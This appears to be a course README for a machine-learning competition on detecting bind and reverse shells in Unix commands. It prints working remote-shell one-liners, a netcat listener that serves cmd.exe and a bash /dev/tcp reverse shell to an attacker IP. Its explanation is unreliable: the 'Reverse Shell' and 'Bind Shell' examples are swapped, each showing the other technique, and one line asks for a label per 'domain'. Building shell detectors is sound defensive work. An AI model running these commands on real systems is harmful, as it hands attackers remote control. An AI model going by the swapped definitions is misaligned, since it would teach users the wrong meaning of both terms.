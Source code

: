 # ML_ITMO_lessons
Решение урока №2 курса ML в ИБ

**Overview**
Detecting bind/reverse shells
Welcome to the Bind/Reverse Shell Detection competition! This competition focuses on detecting bind/reverse Unix shells. Your task is to build a machine learning model that can distinguish between regular and bind/reverse shells.

**Goal**
The goal of this competition is to detect bind/reverse shells, which are often used for establishing a link between an attacker and a target machine
Participants will be provided with a dataset of Unix shells labeled as bind/reverse (1) or legitimate (0). Your task is to build a model that predicts the correct label for each domain in the test set.

**Description**
The use of bind or reverse shell is highly scenario-dependent:

**Reverse Shell**: when a target machine is behind a firewall or NAT, making it hard to initiate an inbound connection. The target machine will connect to the attacker's machine in this setup, hence bypassing the firewall restrictions.
# This command is run on the target, 192.168.1.100
nc -lvp 4444 -e cmd.exe
# This command is run on the attacker, 192.168.1.50
nc 192.168.1.100 4444

**Bind Shell**: applicable when the attacker's machine is able to connect directly to the target machine. In that respect, the target machine is listening to some port for incoming connections, and control is given to the attacking machine upon connection to that port.
# This command is run on the attacker, 10.0.0.5
nc -lvnp 443
# This command is run on the target, 192.168.1.100
bash -i >& /dev/tcp/10.0.0.5/443 0>&1
